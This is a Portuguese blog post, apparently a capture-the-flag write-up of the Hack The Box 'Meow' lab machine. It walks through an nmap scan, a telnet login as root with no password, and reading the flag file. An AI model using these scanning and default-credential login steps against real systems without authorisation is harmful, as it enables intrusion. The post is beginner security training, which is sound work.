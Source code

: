 ```yaml
---
title: "Hack The Box - Write-up da Máquina Meow"
date: 2025-09-03 17:08:00
categories:
  - Hack The Box
tags:
  - CTF
  - Linux
  - Nmap
  - Telnet
---
```


Olá! Este é o meu primeiro write-up para o blog, começando com a máquina **Meow** do Hack The Box. Esta é uma máquina de nível "Muito Fácil" (Tier 0), perfeita para iniciantes se familiarizarem com o processo básico de enumeração e acesso.

### Passo 1: Reconhecimento com Nmap

Como sempre, o primeiro passo é escanear a máquina para descobrir quais portas estão abertas e quais serviços estão rodando nelas. Para isso, utilizamos o Nmap.

Executei o seguinte comando para um scan rápido dos serviços e versões:

```bash
nmap -sV -T4 10.10.10.10 
(Lembre-se de substituir 10.10.10.10 pelo IP da máquina Meow)

O resultado mostrou uma porta muito interessante aberta:

Starting Nmap 7.91 ( [https://nmap.org](https://nmap.org) ) at 2025-09-03 17:00 -03
Nmap scan report for 10.10.10.10
Host is up (0.18s latency).
Not showing: 999 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 12.84 seconds
O scan revelou que a porta 23 (Telnet) está aberta. Telnet é um protocolo de acesso remoto antigo e inseguro, pois não utiliza criptografia. É sempre um bom ponto de partida para um ataque.

Passo 2: Acesso Inicial via Telnet
Com a porta 23 aberta, podemos tentar nos conectar diretamente usando o cliente Telnet.

Bash

telnet 10.10.10.10
Ao conectar, o serviço pediu um login. Em máquinas de CTF fáceis, é comum testar credenciais padrão. Tentei o usuário root:

Trying 10.10.10.10...
Connected to 10.10.10.10.
Escape character is '^]'.

Meow login: root
Para minha surpresa, o sistema me deu acesso como root sem pedir senha! Este é um erro de configuração de segurança gravíssimo.

Passo 3: Capturando a Flag
Agora que estamos dentro do sistema com o usuário de maior privilégio, o próximo passo é encontrar a flag. Geralmente, ela está no diretório /root ou /home.

Usei o comando ls para listar os arquivos no diretório atual:

Bash

# ls
flag.txt
Aí está ela! Para ler o conteúdo do arquivo, usei o comando cat:

Bash

# cat flag.txt
b403...[CONTEÚDO_DA_SUA_FLAG]...d074
E com isso, a máquina foi comprometida e a flag capturada.

Conclusão
A máquina Meow é um ótimo exemplo de como configurações inseguras podem levar a um comprometimento total do sistema. Deixar um serviço como o Telnet exposto para a internet, especialmente com um usuário root sem senha, é um convite para um desastre.

O que aprendemos:

Sempre verifique portas abertas com o Nmap.

Telnet é um serviço inseguro e um forte candidato a ponto de entrada.

Nunca deixe usuários, especialmente o root, sem senha.

